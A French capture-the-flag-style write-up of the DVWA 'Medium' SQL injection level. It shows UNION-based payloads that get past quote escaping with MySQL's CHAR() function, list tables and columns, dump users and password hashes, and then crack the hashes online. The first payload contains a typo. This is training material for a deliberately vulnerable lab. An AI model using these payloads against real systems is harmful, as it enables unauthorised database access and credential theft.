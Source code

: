# Niveau "Medium"

Le formulaire est légèrement modifié ici puisque l'application nous présente non plus un champ de type `<input>` mais une liste de sélection `<select>` :

![](../../../../.gitbook/assets/01cdc18d716ae4bddce7d1c64bb83075.png)

Pour un soucis de simplicité, j'utilise ici l'extension Web Developer (possible via Burp également) qui va convertir ce nouveau formulaire en champ de type `<input>` :

![](../../../../.gitbook/assets/50601a1b929aae8bcc75f6023ff5fc6d.png)

On tente d'injecter notre caractère spécial `"'"` afin de générer une erreur SQL :

![](../../../../.gitbook/assets/0af6ed1e681ffc6f5b9b95c97ca44859.png)

L'erreur nous informe sur la présence d'une protection car le caractère `"'"` est échappé (via le caractère `"\"`). De plus, l'erreur nous indique qu'il s'agit sans doute d'une injection de type numérique et non plus de type String (nombre de `"'"` entourant notre donnée).

Sans reprendre toutes les étapes de reconnaissance (déjà effectuées pour le niveau "Low"), voici l'exploitation de l'injection dans les grandes lignes :

```sql
1 UNION SELET 1,2
```

![](../../../../.gitbook/assets/8a1a58636b34849d9a72d55aedb3d7a3.png)

L'échappement effectué par l'application est un peu embêtant car il nous empêche d'effectuer notre clause `WHERE` :&#x20;

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = 'dvwa' -- 
```

![](../../../../.gitbook/assets/064b4c7ce96c1e4813c22f82ea99e670.png)

Afin de contourner cette limitation on peut, soit supprimer notre clause, ce qui aura pour conséquence de retourner une liste de toutes les tables des différentes bases, ou alors, d'utiliser la fonction `CHAR()` de MySQL :

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/4bdb391ab3998433c70c6425147d293f.png)

Maintenant que nous pouvons contourner l'échappement en place, la suite est facile :

```sql
6 UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/8004e892184bbee82544170bd286f0c0.png)

Puis finalement :

```sql
6 UNION SELECT user,password FROM dvwa.users
```

![](../../../../.gitbook/assets/d564f4efc9dd1d64a60832cbd563ab3d.png)

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7.png)
